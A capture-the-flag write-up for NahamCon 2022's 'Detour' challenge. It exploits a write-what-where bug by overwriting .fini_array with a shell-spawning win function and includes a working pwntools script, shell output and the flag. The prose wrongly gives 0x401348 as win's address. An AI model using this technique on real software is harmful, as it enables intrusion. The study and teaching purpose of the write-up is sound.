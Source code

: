 # Detour - NahamCon CTF 2022 - [https://www.nahamcon.com/](https://www.nahamcon.com/)
Binary Exploitation, 404 Points

## Description

![info.JPG](images/info.JPG)
 
## Detour Solution

Let's run ```checksec``` on the attached file [detour](./detour):
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ checksec detour
[*] '/nahamcon/binary_exploitation/detour'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see we have [NX Enabled](https://ctf101.org/binary-exploitation/no-execute/) and [Stack Canary](https://ctf101.org/binary-exploitation/stack-canaries/).

Let's run the binary:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ ./detour
What: 1
Where: 2
Segmentation fault
```

So we can see that we have [Write-what-Were](https://www.martellosecurity.com/kb/mitre/cwe/123/).

Let's observe the ```main``` function using [Ghidra](https://github.com/NationalSecurityAgency/ghidra):
```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  undefined8 local_20;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("What: ");
  __isoc99_scanf(&DAT_00402013,&local_20);
  getchar();
  printf("Where: ");
  __isoc99_scanf(&DAT_0040201f,&local_18);
  getchar();
  *(undefined8 *)((long)&base + local_18) = local_20;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

And by observing the code we found also the ```win``` function:
```console
void win(void)
{
  system("/bin/sh");
  return;
}
```

We need to write the address of ```win``` function to location that can execute it.

We can do it by override the address of the ```fini_array``` which called after the ```main``` function.

Let's find the address of the relevant functions using ```gdb```:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ gdb detour
..
gef➤  info file
Symbols from "/nahamcon/binary_exploitation/detour/detour".
Local exec file:
	`/nahamcon/binary_exploitation/detour/detour', file type elf64-x86-64.
	Entry point: 0x4010f0
	0x00000000004002e0 - 0x00000000004002fc is .interp
	0x0000000000400300 - 0x0000000000400320 is .note.gnu.property
	0x0000000000400320 - 0x0000000000400344 is .note.gnu.build-id
	0x0000000000400344 - 0x0000000000400364 is .note.ABI-tag
	0x0000000000400368 - 0x0000000000400390 is .gnu.hash
	0x0000000000400390 - 0x0000000000400498 is .dynsym
	0x0000000000400498 - 0x000000000040052e is .dynstr
	0x000000000040052e - 0x0000000000400544 is .gnu.version
	0x0000000000400548 - 0x0000000000400588 is .gnu.version_r
	0x0000000000400588 - 0x00000000004005e8 is .rela.dyn
	0x00000000004005e8 - 0x0000000000400678 is .rela.plt
	0x0000000000401000 - 0x000000000040101b is .init
	0x0000000000401020 - 0x0000000000401090 is .plt
	0x0000000000401090 - 0x00000000004010f0 is .plt.sec
	0x00000000004010f0 - 0x0000000000401345 is .text
	0x0000000000401348 - 0x0000000000401355 is .fini
	0x0000000000402000 - 0x0000000000402023 is .rodata
	0x0000000000402024 - 0x0000000000402078 is .eh_frame_hdr
	0x0000000000402078 - 0x00000000004021b8 is .eh_frame
	0x00000000004031b8 - 0x00000000004031c8 is .init_array
	0x00000000004031c8 - 0x00000000004031d0 is .fini_array
	0x00000000004031d0 - 0x00000000004033a0 is .dynamic
	0x00000000004033a0 - 0x00000000004033b0 is .got
	0x00000000004033b0 - 0x00000000004033f8 is .got.plt
	0x00000000004033f8 - 0x0000000000403408 is .data
	0x0000000000403410 - 0x0000000000403438 is .bss
$2 = {<text variable, no debug info>} 0x401348 <_fini>
gef➤  print win
$3 = {<text variable, no debug info>} 0x401209 <win>
```
So we need to write ```0x401348``` (win) to ```0x4031c8``` (.fini_array).

By observing the code we can see the following line:
```c
*(undefined8 *)((long)&base + local_18) = local_20;
```

Meaning that we need to find also the address of the ```base```.

We can do it also by using ```gdb``` by disassemblie the ```main``` function:
```asm
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000000000401220 <+0>:	endbr64 
   0x0000000000401224 <+4>:	push   rbp
   0x0000000000401225 <+5>:	mov    rbp,rsp
   0x0000000000401228 <+8>:	sub    rsp,0x20
   0x000000000040122c <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401235 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401239 <+25>:	xor    eax,eax
   0x000000000040123b <+27>:	lea    rdi,[rip+0xdca]        # 0x40200c
   0x0000000000401242 <+34>:	mov    eax,0x0
   0x0000000000401247 <+39>:	call   0x4010c0 <printf@plt>
   0x000000000040124c <+44>:	lea    rax,[rbp-0x18]
   0x0000000000401250 <+48>:	mov    rsi,rax
   0x0000000000401253 <+51>:	lea    rdi,[rip+0xdb9]        # 0x402013
   0x000000000040125a <+58>:	mov    eax,0x0
   0x000000000040125f <+63>:	call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401264 <+68>:	call   0x4010d0 <getchar@plt>
   0x0000000000401269 <+73>:	lea    rdi,[rip+0xda7]        # 0x402017
   0x0000000000401270 <+80>:	mov    eax,0x0
   0x0000000000401275 <+85>:	call   0x4010c0 <printf@plt>
   0x000000000040127a <+90>:	lea    rax,[rbp-0x10]
   0x000000000040127e <+94>:	mov    rsi,rax
   0x0000000000401281 <+97>:	lea    rdi,[rip+0xd97]        # 0x40201f
   0x0000000000401288 <+104>:	mov    eax,0x0
   0x000000000040128d <+109>:	call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401292 <+114>:	call   0x4010d0 <getchar@plt>
   0x0000000000401297 <+119>:	mov    rax,QWORD PTR [rbp-0x10]
   0x000000000040129b <+123>:	mov    rdx,rax
   0x000000000040129e <+126>:	lea    rax,[rip+0x218b]        # 0x403430 <base>
   0x00000000004012a5 <+133>:	add    rdx,rax
   0x00000000004012a8 <+136>:	mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004012ac <+140>:	mov    QWORD PTR [rdx],rax
   0x00000000004012af <+143>:	mov    eax,0x0
   0x00000000004012b4 <+148>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004012b8 <+152>:	xor    rcx,QWORD PTR fs:0x28
   0x00000000004012c1 <+161>:	je     0x4012c8 <main+168>
   0x00000000004012c3 <+163>:	call   0x401090 <__stack_chk_fail@plt>
   0x00000000004012c8 <+168>:	leave  
   0x00000000004012c9 <+169>:	ret    
End of assembler dump.
```

An we can see the ```base``` on ```lea    rax,[rip+0x218b]        # 0x403430 <base>``` which is ```0x403430```.

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./detour')
libc = elf.libc

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 32680)
else:
    p = process(elf.path)

# funcions address
address_of_win = 0x401209
address_of_fini = 0x4031c8
address_of_base = 0x403430
p.recvuntil(':')
p.sendline(str(address_of_win))
p.recvuntil(':')
p.sendline(str(address_of_fini-address_of_base))
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ python3 detour_pwn.py REMOTE
python3 exp_rop.py REMOTE
[*] '/nahamcon/binary_exploitation/detour'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.nahamcon.com on port 32680: Done
[*] Switching to interactive mode
 $ ls
bin
detour
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{787325292ef650fa69541722bb57bed9}
```

And we get the flag ```flag{787325292ef650fa69541722bb57bed9}```.